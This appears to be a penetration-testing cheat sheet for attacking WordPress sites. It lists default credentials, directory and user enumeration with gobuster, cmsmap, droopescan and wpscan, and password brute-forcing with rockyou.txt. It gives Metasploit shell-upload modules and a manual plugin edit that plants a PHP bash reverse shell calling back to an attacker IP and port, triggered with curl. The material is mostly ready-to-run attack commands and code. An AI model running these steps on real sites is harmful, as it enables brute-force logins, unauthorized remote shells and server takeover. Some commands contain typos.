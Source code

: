 # Wordpress

## Default Credentials

|Field|Value|
|:--|:--|
|username|admin|
|password|password|

## Enumeration

### gobuster

> Enumeration site

    gobuster dir -w /usr/share/seclists/Discovery/Web-Content/CMS/wordpress.fuzz.txt -k -u http://IP_ADDRESS
    gobuster dir -w /usr/share/seclists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt -k -u http://IP_ADDRESS
    gobuster dir -w /usr/share/seclists/Discovery/Web-Content/CMS/wp-themes.fuzz.txt -k -u http://IP_ADDRESS

### cmsmap

    cmsmap -f W http://IP_ADDRESS/

### droopescan

    droopescan scan wordpress -u http://IP_ADDRESS/moodle/

### wpscan

wpscan --url IP_ADDRESS

> Enumeration username

    wpscan –url http://IP_ADDRESS/ -e u

> Enumeration themes

    wpscan –url http://IP_ADDRESS/ -e at

> Enumeration plugins

    wpscan –url http://IP_ADDRESS/ -e ap

> Password brutforce

Wpscan will try to enumerate user.

    wpscan --url http://IP_ADDRESS -P rockyou.txt


    wpscan --url http://IP_ADDRESS -U user.txt -P rockyou.txt


    Shell Upload using Metasploit

## Upload shell

### wp admin shell

    msf > use exploit/unix/webapp/wp_admin_shell_upload
    msf exploit(wp_admin_shell_upload) > set RHOSTS IP_ADDRESS
    msf exploit(wp_admin_shell_upload) > set USERNAME username
    msf exploit(wp_admin_shell_upload) > set PASSWORD password
    msf exploit(wp_admin_shell_upload) > set TARGETURI /
    msf exploit(wp_admin_shell_upload) > run

### Exploit plugin - slideshowgallery

    use exploit/unix/webapp/wp_slideshowgallery_upload
    msf exploit(wp_slideshowgallery_upload) > set RHOSTS IP_ADDRESS
    msf exploit(wp_slideshowgallery_upload) > set USERNAME username
    msf exploit(wp_slideshowgallery_upload) > set PASSWORD password
    msf exploit(wp_slideshowgallery_upload) > set TARGETURI /
    msf exploit(wp_slideshowgallery_upload) > run

### Manule

Go to: `http://IP_ADDRESS/wp-admin/plugins.php`

Edit a plugin

Add :

```sh
<?php
exec("/bin/bash -c \"/bin/bash -i >& /dev/tcp/IP_ADDRESS/PORT 0>&1\" &");
?>
```

Run plugin:

```sh
curl -v http://IP_ADDRESS/wp-content/plugins/Plugin_Name/File_Name.php 
```
